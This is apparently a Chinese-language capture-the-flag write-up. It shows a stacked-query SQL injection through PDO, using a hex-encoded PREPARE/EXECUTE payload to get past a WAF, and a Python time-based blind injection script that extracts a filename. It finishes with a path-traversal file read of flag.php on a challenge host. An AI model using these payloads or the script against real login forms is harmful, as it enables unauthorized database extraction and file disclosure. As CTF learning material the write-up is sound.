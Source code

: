 这题也比较简单，没什么难点。就是懒得写脚本，给了个时盲注的payload就开溜，最后还是队友写的脚本，但是队友写的脚本又有问题，哭了，后面拿这个问别人才知道大小写问题。下面给出的脚本是我修改过的能跑出正确的。

是个注入 但是很奇怪 fuzz一下规律
似乎waf也会变成username or password error 
比如{"username":"1'","password":"admin'"}和{"username":"1'set","password":"admin'"}是500
但是
{"username":"1'select","password":"admin'"}
就会变成error username or password

睡醒了  给了PDO的提示 看看PDO query的注入
{"username":"1';SET @a=0x73656C65637420736C6565702835293B;PREPARE st FROM @a;EXECUTE st;","password":"admin'"}

```python
#coding=utf-8
import re
import requests
import sys
import binascii
import json

reload(sys)
sys.setdefaultencoding("utf8")
url="http://182.92.220.157:11116/index.php?r=Login/Login"

flag=""
def str_to_hex(s):
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])

for i in range(1,40):
    print(i)
    for str1 in "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_,!@#$%^&*``.":
        sql = "select if((ascii(substr((select group_concat(flag) from flag),"+str(i)+",1))='"+str(ord(str1))+"'),sleep(5),2);"   # ctf
        sql_hex = str_to_hex(sql)
        data={
            "username":"1\';SET @a=0x"+str(sql_hex)+";PREPARE st FROM @a;EXECUTE st;",
            "password":"admin\'"
        }   
        try:
            result=requests.post(url,json=data,timeout=4)
            # print result.text
        except requests.exceptions.ReadTimeout:
            flag+=str1
            print(flag)
            break
print(flag)
```

我爆出来的是amol#t.zip  感觉是延时注入的问题  我这个网不太好的样子。。。

flag的内容应该就是amol#t.zip
上面脚本有问题 substr之后的判断是不分大小写的，加了个ascii，最终是AmOL#T.zip，访问可得源码
 http://182.92.220.157:11116/AmOL%23T.zip 
审计半天，以为是个大老虎，结果就是一个文件读取。。
http://182.92.220.157:11116/index.php?r=User/Index&img_file=/../flag.php
会把img_file的内容读出来并base64,还以为这个img_info会检查。。。
